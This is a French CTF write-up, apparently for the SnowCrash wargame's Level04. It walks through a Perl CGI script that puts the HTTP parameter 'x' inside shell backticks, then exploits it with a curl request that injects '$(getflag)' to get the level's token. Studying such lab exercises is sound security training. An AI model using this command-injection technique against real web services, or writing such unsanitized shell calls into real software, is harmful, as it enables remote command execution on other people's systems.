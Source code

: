 ## Level04

```bash
cat level04.pl
```

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## Voici une explication du code :

- #!/usr/bin/perl : Cette ligne indique que le script doit être exécuté en utilisant l'interpréteur Perl, qui se trouve généralement dans le répertoire /usr/bin/perl.

- use CGI qw{param}; : Cette ligne charge le module CGI (Common Gateway Interface) et importe la fonction param du module. Le module CGI est couramment utilisé pour créer des scripts CGI en Perl et pour gérer les paramètres transmis via des formulaires web.

- print "Content-type: text/html\n\n"; : Cette ligne envoie l'en-tête HTTP pour la réponse au client. En tant que script CGI, il doit renvoyer un en-tête "Content-type" spécifiant le type de contenu que le script génère, suivi de deux retours à la ligne ("\n\n") pour indiquer la fin de l'en-tête.

- sub x { ... } : Cette section définit une sous-routine nommée "x". Une sous-routine en Perl est une fonction réutilisable. La sous-routine "x" prend un seul argument qui est stocké dans la variable $y. Le contenu de la sous-routine est entre les accolades.

- $y = $_[0]; : Cette ligne assigne la valeur du premier argument passé à la sous-routine (qui est stocké dans le tableau spécial @_) à la variable $y.

- print echo $y 2>&1`` : Cette ligne exécute la commande echo en utilisant le contenu de la variable $y comme argument. Le caractère backtick () permet d'exécuter une commande système dans Perl. Le 2>&1redirige à la fois la sortie standard (stdout) et la sortie d'erreur (stderr) vers le flux de sortie. En d'autres termes, cette ligne exécute la commande$y` et renvoie la sortie (y compris les erreurs) au client.

- x(param("x")); : Cette ligne appelle la sous-routine "x" en passant la valeur du paramètre "x" qui est passé dans la requête HTTP. La fonction param("x") récupère la valeur du paramètre "x" transmis dans la requête. Cette valeur est ensuite utilisée comme argument pour la sous-routine "x".

Lorsque vous interagissez avec ce script via une requête HTTP, il traite la valeur du paramètre "x" en l'exécutant comme une commande système. Cela signifie que si vous pouvez contrôler la valeur de "x" dans votre requête, vous pouvez exécuter n'importe quelle commande système.

Si on lance:
```bash
curl localhost:4747
```
rien ne s'affiche 

Cependant, si vous envoyez une requête avec le paramètre "x" défini comme "toto", le script exécutera la commande echo toto et renverra "toto" comme réponse :
```bash
curl 'localhost:4747/?x=toto'
toto
```

Mais le vrai potentiel réside dans le fait que vous pouvez exécuter des commandes système arbitraires. Par exemple, en envoyant une requête avec le paramètre "x" défini comme "$(getflag)", le script exécutera la commande echo $(getflag) et renverra le résultat de la commande getflag. Cela vous permet d'obtenir le jeton du niveau suivant :

```bash
curl 'localhost:4747/?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

